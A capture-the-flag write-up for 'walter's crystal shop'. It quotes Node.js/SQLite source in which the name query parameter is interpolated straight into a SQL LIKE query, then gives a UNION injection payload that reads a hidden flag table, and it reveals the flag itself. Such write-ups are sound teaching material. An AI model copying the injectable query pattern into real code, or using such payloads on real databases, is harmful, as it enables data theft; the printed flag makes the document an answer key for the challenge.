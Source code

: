 # walter's crystal shop

## Solution

Info from the source code: 
* There are two tables exists which are, ```crystals``` and ```flag```.
* Crystals have 3 columns and Flag has one column.

From this info, we can assume that the question wants us to do some "Union SQLi" to get the flag from ```flag``` table. 
```
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});
```

This lines of codes proves that there is vulnerability to do some UNION SQL ATTACK. There is no validation on the name variable query.
```
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```

Now we can crete the payload for UNION SQL ATTACK. Since the crystals table needs 3 columns so we need to add NULL columns so the SELECT statement is valid.
```
' UNION SELECT flag,null,null from flag--
```

## Flag
The flag for this challenge is ```nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}```
